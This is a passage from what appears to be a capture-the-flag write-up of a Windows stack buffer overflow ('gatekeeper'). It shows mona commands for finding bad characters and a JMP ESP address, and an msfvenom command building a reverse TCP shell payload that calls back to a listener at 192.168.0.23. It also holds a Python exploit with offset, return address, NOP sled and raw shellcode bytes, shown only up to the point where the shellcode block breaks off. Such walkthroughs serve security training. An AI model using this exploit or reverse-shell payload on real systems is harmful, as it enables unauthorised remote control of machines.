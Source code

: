 - ``!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 014C19F8``

![0xskar](/assets/gatekeeper08.png)

- Now we can find a jump point with our identified badchars
- ``!mona jmp -r esp -cpb "\x00\x0a"``

![0xskar](/assets/gatekeeper09.png)

- 080414C3 Jump Point
- Now that we have this jump point we can update our code and generate our shellcode
- Convert to little endian \xc3\x14\x04\x08
- generate shellcode with updated badchars 
- ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=7777 -b "\x00\x0a" -f c`` 
- and inset into exploit

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"\xc3\x14\x04\x08" + b"\x90" * 32
shellcode = (b"\xba\x7a\xbb\x8f\x48\xdd\xc7\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x53\x12\x03\x53\x12\x83\x91\x47\x6d\xbd\x99\x50\xf0"
b"\x3e\x61\xa1\x95\xb7\x84\x90\x95\xac\xcd\x83\x25\xa6\x83\x2f"
b"\xcd\xea\x37\xbb\xa3\x22\x38\x0c\x09\x15\x77\x8d\x22\x65\x16"
b"\x0d\x39\xba\xf8\x2c\xf2\xcf\xf9\x69\xef\x22\xab\x22\x7b\x90"
b"\x5b\x46\x31\x29\xd0\x14\xd7\x29\x05\xec\xd6\x18\x98\x66\x81"
b"\xba\x1b\xaa\xb9\xf2\x03\xaf\x84\x4d\xb8\x1b\x72\x4c\x68\x52"
b"\x7b\xe3\x55\x5a\x8e\xfd\x92\x5d\x71\x88\xea\x9d\x0c\x8b\x29"
b"\xdf\xca\x1e\xa9\x47\x98\xb9\x15\x79\x4d\x5f\xde\x75\x3a\x2b"
b"\xb8\x99\xbd\xf8\xb3\xa6\x36\xff\x13\x2f\x0c\x24\xb7\x6b\xd6"
b"\x45\xee\xd1\xb9\x7a\xf0\xb9\x66\xdf\x7b\x57\x72\x52\x26\x30"
b"\xb7\x5f\xd8\xc0\xdf\xe8\xab\xf2\x40\x43\x23\xbf\x09\x4d\xb4"
b"\xc0\x23\x29\x2a\x3f\xcc\x4a\x63\x84\x98\x1a\x1b\x2d\xa1\xf0"
b"\xdb\xd2\x74\x56\x8b\x7c\x27\x17\x7b\x3d\x97\xff\x91\xb2\xc8"
b"\xe0\x9a\x18\x61\x8a\x61\xcb\x4e\xe3\x69\x1c\x27\xf6\x69\x3c"
b"\xd6\x7f\x8f\x2a\x08\xd6\x18\xc3\xb1\x73\xd2\x72\x3d\xae\x9f"
b"\xb5\xb5\x5d\x60\x7b\x3e\x2b\x72\xec\xce\x66\x28\xbb\xd1\x5c"
b"\x44\x27\x43\x3b\x94\x2e\x78\x94\xc3\x67\x4e\xed\x81\x95\xe9"
b"\x47\xb7\x67\x6f\xaf\x73\xbc\x4c\x2e\x7a\x31\xe8\x14\x6c\x8f"
b"\xf1\x10\xd8\x5f\xa4\xce\xb6\x19\x1e\xa1\x60\xf0\xcd\x6b\xe4"
```